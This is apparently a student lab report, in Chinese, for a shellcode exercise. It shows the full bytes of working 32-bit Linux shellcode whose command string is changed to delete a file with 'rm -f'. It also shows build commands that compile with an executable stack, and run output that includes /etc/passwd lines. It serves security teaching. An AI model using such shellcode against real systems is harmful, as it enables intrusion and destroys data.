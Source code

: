 > **Task.** Please modify the shellcode, so you can use it to delete a file. Please include your modified the
> shellcode in the lab report, as well as your screenshots.

根据 Task 的要求，我们对 `shellcode_32.py` 进行修改，使其能够删除文件。

需要注意的是，shell 长度不能变。

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
    "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
    "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
    "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
    "/bin/bash*"
    "_C*"
    # You can modify the following command string to run any command.
    # You can even run multiple commands. When you change the string,
    # make sure that the position of the * at the end doesn't change.
    # The code above will change the byte at this position to zero,
    # so the command string ends here.
    # You can delete/add spaces, if needed, to keep the position the same.
    # The * in this line serves as the position marker         *
    "/bin/rm -f tmpfile; echo Hello 32;                        *"
    "AAAA"   # Placeholder for argv[0] -- > "/bin/bash"
    "BBBB"   # Placeholder for argv[1] -- > "-c"
    "CCCC"   # Placeholder for argv[2] -- > the command string
    "DDDD"   # Placeholder for argv[3] -- > NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_32', 'wb') as f:
    f.write(content)
```

然后我们新建 `tmpfile` 文件并运行 shellcode，过程和结果如下

```shell
$ touch tmpfile
$ ./shellcode_32.py
$ ./shellcode_64.py
$ make
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
$ a32.out
Hello 32
$ a64.out
total 64
-rw-rw-r-- 1 seed seed   160 Dec 22  2020 Makefile
-rw-rw-r-- 1 seed seed   312 Dec 22  2020 README.md
-rwxrwxr-x 1 seed seed 15740 Jul 10 09:35 a32.out
-rwxrwxr-x 1 seed seed 16888 Jul 10 09:35 a64.out
-rw-rw-r-- 1 seed seed   476 Dec 22  2020 call_shellcode.c
-rw-rw-r-- 1 seed seed   136 Jul 10 09:34 codefile_32
-rw-rw-r-- 1 seed seed   165 Jul 10 09:34 codefile_64
-rw-rw-r-- 1 seed seed  1221 Jul 10 09:34 shellcode_32.py
-rw-rw-r-- 1 seed seed  1295 Dec 22  2020 shellcode_64.py
Hello 64
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
telnetd:x:126:134::/nonexistent:/usr/sbin/nologin
```